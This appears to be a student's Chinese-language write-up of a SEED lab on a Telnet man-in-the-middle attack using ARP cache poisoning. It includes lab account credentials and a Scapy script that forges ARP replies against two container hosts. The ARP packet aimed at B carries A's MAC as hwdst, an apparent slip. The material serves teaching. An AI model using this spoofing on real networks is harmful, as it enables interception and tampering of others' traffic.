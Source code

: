 ## 任务2：基于ARP缓存中毒对Telnet进行中间人攻击

> 主机A和B正在使用telnet进行通信，主机M希望拦截他们的通信，因此它可以更改A和B之间发送的数据。设置在图2中描绘了。我们已经创建了一个名为“ SEED”的帐户。 在容器内部，密码为“ dees”。 您可以将其伸入此帐户

### **步骤1**（启动攻击）

> **步骤1**（启动ARP缓存中毒攻击）。首先，主机M对A和B进行了ARP缓存中毒攻击，以便在A的ARP缓存，B的IP地址映射到M的MAC地址，在B的ARP缓存中，A的IP地址也将其映射到M的Mac地址。 在此步骤之后，在A和B之间发送的数据包将全部发送到M。我们将使用任务1的ARP缓存中毒攻击来实现此目标。 最好不断发送欺骗数据包（例如每5秒）； 否则，假条目可能被真实的条目代替。

![image-20220504203856773](ARPCachePoisoning/image-20220504203856773.png)
<center>图2：对Telnet的中间人攻击</center>

```python
from scapy.all import *

# Who can it be used? Write first!
A_ip = "10.9.0.5"
A_mac = "02:42:0a:09:00:05"
B_ip = "10.9.0.6"
B_mac = "02:42:0a:09:00:06"
M_ip = "10.9.0.105"
M_mac = "02:42:0a:09:00:69"


# Poisoning A's mac
# Sending ARP reply from M->A
ethA = Ether(src=M_mac, dst=A_mac)
arpA = ARP(hwsrc=M_mac, psrc=B_ip,
           hwdst=A_mac, pdst=A_ip)
arpA.op = 2


# Poisoning B's arp
# Sending reply from M->B
ethB = Ether(src=M_mac, dst=B_mac)
arpB = ARP(hwsrc=M_mac, psrc=A_ip,
           hwdst=A_mac, pdst=B_ip)
arpB.op = 2


pkt1 = ethA/arpA
pkt1.show()
sendp(pkt1, count=1)
pkt2 = ethB/arpB
pkt2.show()
sendp(pkt2, count=1)
```
